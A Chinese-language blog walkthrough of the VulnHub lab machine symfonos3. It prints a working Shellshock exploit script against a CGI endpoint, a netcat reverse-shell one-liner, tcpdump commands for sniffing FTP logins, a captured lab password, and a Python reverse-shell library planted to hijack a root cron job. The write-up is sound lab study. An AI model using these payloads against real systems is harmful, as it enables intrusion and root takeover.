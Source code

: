 ```yaml
---
layout: post
title:  "vulnhub >_ symfonos3"
description: walkthrough
category: vulnhub
---
```

# symfonos3

![image-20200627201400855]({{ site.url }}/assets/symfonos3.assets/image-20200627201400855.png)

![image-20200627201426195]({{ site.url }}/assets/symfonos3.assets/image-20200627201426195.png)

FTP禁止匿名访问

![image-20200627202426387]({{ site.url }}/assets/symfonos3.assets/image-20200627202426387.png)

![image-20200627202441732]({{ site.url }}/assets/symfonos3.assets/image-20200627202441732.png)

http目录

![image-20200627203728486]({{ site.url }}/assets/symfonos3.assets/image-20200627203728486.png)

![image-20200627203854067]({{ site.url }}/assets/symfonos3.assets/image-20200627203854067.png)

![image-20200627203752624]({{ site.url }}/assets/symfonos3.assets/image-20200627203752624.png)

![image-20200627203816063]({{ site.url }}/assets/symfonos3.assets/image-20200627203816063.png)

![image-20200627203919588]({{ site.url }}/assets/symfonos3.assets/image-20200627203919588.png)

看页面猜测underworld应该是/cgi-bin目录下的可执行文件，也就是应该存在shellshock，而主页源代码内的提示也提到underworld，先从这里入手。

shellshock，python shell脚本

```python
#!/usr/bin/python
# 使用示例
# python shellshock_shell.py 192.168.56.1
# $ id
# uid=48(apache) gid=48(apache) groups=48(apache)
# $ pwd
# /var/www/cgi-bin

import requests, sys
from base64 import b64encode

victim_ip = sys.argv[1]

while True:
    command = b64encode(raw_input('$ ').strip())
    headers = {
        'User-Agent': '() { :; }; echo \'Content-type: text/html\'; echo; export PATH=$PATH:/usr/bin:/bin:/sbin; echo \'%s\' | base64 -d | sh 2>&1' % command
    }

    print requests.get('http://192.168.43.226/cgi-bin/underworld', headers=headers).text.strip()		#注意修改这里为目标地址路径。

```

![image-20200627204842605]({{ site.url }}/assets/symfonos3.assets/image-20200627204842605.png)

shellshock 脚本所产生的shell，理论上是webshell为了更方便我们使用，在1337端口建立监听，并在shellshock中使用以下方式以获得更方便使用的shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.66 1337 >/tmp/f
```

![image-20200627205839456]({{ site.url }}/assets/symfonos3.assets/image-20200627205839456.png)

先查看用户

![image-20200627211901544]({{ site.url }}/assets/symfonos3.assets/image-20200627211901544.png)

使用脚本用来更进一步枚举

![image-20200627210809435]({{ site.url }}/assets/symfonos3.assets/image-20200627210809435.png)



![image-20200627211421722]({{ site.url }}/assets/symfonos3.assets/image-20200627211421722.png)

看来会使用密码登录proftpd

ftp是明文传输，我们可以尝试使用tcpdump进行浏览监测，从而尝试得到明文凭证

```bash
tcpdump -D		#查看可监控的设备

tcpdump -v -i lo port 21	#实时监测并屏幕输出，由于目标是本机登录ftp，所以应该监听lo环回. 虽然能更快的找到答案，但结束时需要ctrl c ，会断掉shell
tcpdump -w file.pcap -i lo		#输出到pcap文件，可以下载到kali使用wireshark分析。
```

![image-20200627212700226]({{ site.url }}/assets/symfonos3.assets/image-20200627212700226.png)

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

![image-20200627212928919]({{ site.url }}/assets/symfonos3.assets/image-20200627212928919.png)

![image-20200627213251359]({{ site.url }}/assets/symfonos3.assets/image-20200627213251359.png)

```bash
hades:PTpZTfU4vxgzvRBE
```



```bash
ssh hades@192.168.43.226
```

![image-20200627214321200]({{ site.url }}/assets/symfonos3.assets/image-20200627214321200.png)

我们之前已经通过枚举知道了root定时执行的一个脚本`/opt/ftpclient/ftpclient.py`，但是之前没权限查看，现在再次尝试

![image-20200627214845945]({{ site.url }}/assets/symfonos3.assets/image-20200627214845945.png)

看权限，显然无法对脚本做任何事情。（注。靶机是3.1版本已经修复了之前3.0版本直接可写的问题）

而脚本引用了ftplib

我们可以通过伪造lib提权。

检查lib文件夹权限

![image-20200627223633330]({{ site.url }}/assets/symfonos3.assets/image-20200627223633330.png)

![image-20200627223413591]({{ site.url }}/assets/symfonos3.assets/image-20200627223413591.png)

首先在kali本地伪造lib文件

```python
import socket,subprocess,os

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.43.66",1338))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```

工作目录建立http服务

```bash
python -m SimpleHTTPServer 8080
```

备份靶机原库文件，并将伪造文件上传至靶机

```bash
mv ftplib.py ftplib.py.bak
wget http://192.168.43.66:8080/ftplib.py
```

![image-20200627224045383]({{ site.url }}/assets/symfonos3.assets/image-20200627224045383.png)

在kali端口1338建立监听。root

![image-20200627224311226]({{ site.url }}/assets/symfonos3.assets/image-20200627224311226.png)
